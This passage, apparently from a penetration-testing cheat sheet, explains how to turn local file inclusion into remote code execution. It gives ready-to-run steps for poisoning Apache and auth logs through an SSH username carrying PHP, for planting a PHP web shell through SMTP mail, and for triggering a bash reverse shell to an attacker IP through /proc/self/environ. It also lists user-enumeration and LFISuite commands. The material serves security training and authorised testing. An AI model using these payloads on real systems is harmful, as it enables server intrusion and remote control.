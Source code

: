 If log files such as `/var/log/apache2/access.log` or `/var/log/auth.log` are
                accessible through LFI, you can inject malicious code into the logs to achieve RCE.

1. Verify if log files can be accessed via LFI:

    http://<target_url>/file.php?recurse=../../../../../var/log/apache2/access.log
    

1. Inject a malicious PHP payload into the logs via SSH:

    ssh "<?php system(&#39;whoami&#39;); ?>"@<target>
    

1. Access the log file via LFI to execute the payload:

    http://<target_url>/file.php?recurse=../../../../../var/log/auth.log
    

###### 3.3.1.4.2 Mail PHP Execution (RCE via Email)

Using LFI, after enumerating users (e.g., `/etc/passwd`), you can attempt to execute PHP
                code through a mail server by embedding PHP in email data.

1. Connect to the mail server:

    telnet <target_ip> 25
    

1. Inject PHP payload into the email service:

    HELO localhost
    MAIL FROM:<root>
    RCPT TO:<www-data>
    DATA
    <?php echo shell_exec($_REQUEST[&#39;cmd&#39;]); ?>
    .
    

1. If unsure about the users on the system, perform user enumeration:

    smtp-user-enum -M VRFY -U <username_list> -t <target_ip>
    

##### 3.3.1.5 Reverse Shell via LFI

You can use `/proc/self/environ` to inject a shell. If the environment variables are
                writable, inject PHP code into the environment.

1. Send the PHP payload:

    curl -X POST -d "cmd=<?php system(&#39;bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1&#39;); ?>" http://<target_url>/file.php?recurse=../../../../../proc/self/environ
    

1. Access the file via LFI to trigger the reverse shell:

    http://<target_url>/file.php?recurse=../../../../../proc/self/environ
    

##### 3.3.1.6 Useful Tools

- **LFISuite**: A tool to automate exploitation of LFI vulnerabilities.

    git clone https://github.com/D35m0nd142/LFISuite
    